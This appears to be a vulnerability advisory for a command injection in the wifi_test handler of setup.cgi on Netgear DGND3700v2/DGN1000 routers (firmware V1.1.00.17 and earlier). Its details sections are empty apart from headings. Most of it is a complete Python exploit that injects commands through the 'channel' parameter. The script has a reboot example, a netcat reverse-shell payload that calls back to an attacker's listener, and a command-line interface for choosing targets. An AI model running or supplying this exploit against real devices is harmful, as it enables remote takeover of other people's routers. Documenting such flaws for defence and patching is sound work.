


# Information


**Vendor of the products:** Netgear

**Vendor's website:** [NETGEAR Support | NETGEAR](https://www.netgear.com/support/)

**Affected products:** DGND3700v2/DGN1000

**Affected firmware version:** <=V1.1.00.17

**Firmware download address:** [DGND3700v2 Firmware Version 1.1.00.17 (For North America Only) - NETGEAR Support](https://kb.netgear.com/25203/DGND3700v2-Firmware-Version-1-1-00-17-For-North-America-Only)

# Overview

A command execution vulnerability has been discovered in Netgear devices DGND3700v2 and DGN1000. Attackers can execute unauthorized commands by using a carefully crafted payload. Specifically, this can be triggered through the wifi_test interface.

# Vulnerability details

The entry point of the function



There is command splicing here



# POC

```py
#!/usr/bin/env python3
import requests
import argparse
from urllib.parse import quote

def check_vulnerability(target):
    try:
        url = f"http://{target}/setup.cgi"
        params = {
            'next_file': 'netgear.cfg',
            'todo': 'wifi_test'
        }
        response = requests.get(url, params=params, timeout=5)
        return response.status_code == 200
    except:
        return False

def execute_command(target, cmd):
    try:
        url = f"http://{target}/setup.cgi"
        params = {
            'next_file': 'netgear.cfg',
            'todo': 'wifi_test',
            'channel': cmd, # /sbin/reboot&
            'mod': '1'
        }
        response = requests.get(url, params=params, timeout=5)
        return response.status_code == 200
    except Exception as e:
        print(f"[-] Error executing command: {e}")
        return False

def exploit(target, lhost, lport):
    if not check_vulnerability(target):
        print("[-] Target does not appear vulnerable")
        return False
    
    print("[+] Target appears vulnerable, attempting exploitation")
    
    # Reverse shell payload (adjust for your needs)
    reverse_shell = f"nc -e /bin/sh {lhost} {lport}"
    
    if execute_command(target, reverse_shell):
        print("[+] Exploit sent successfully")
        print("[+] Check your listener for a shell")
        return True
    else:
        print("[-] Exploit failed")
        return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Netgear DGND3700v2/DGN1000 RCE Exploit')
    parser.add_argument('-t', '--target', required=True, help='Target IP address')
    parser.add_argument('-lh', '--lhost', required=True, help='Listener IP address')
    parser.add_argument('-lp', '--lport', required=True, help='Listener port')
    
    args = parser.parse_args()
    
    print("[*] Starting exploitation attempt")
    if exploit(args.target, args.lhost, args.lport):
        print("[+] Exploitation completed successfully")
    else:
        print("[-] Exploitation failed")
```

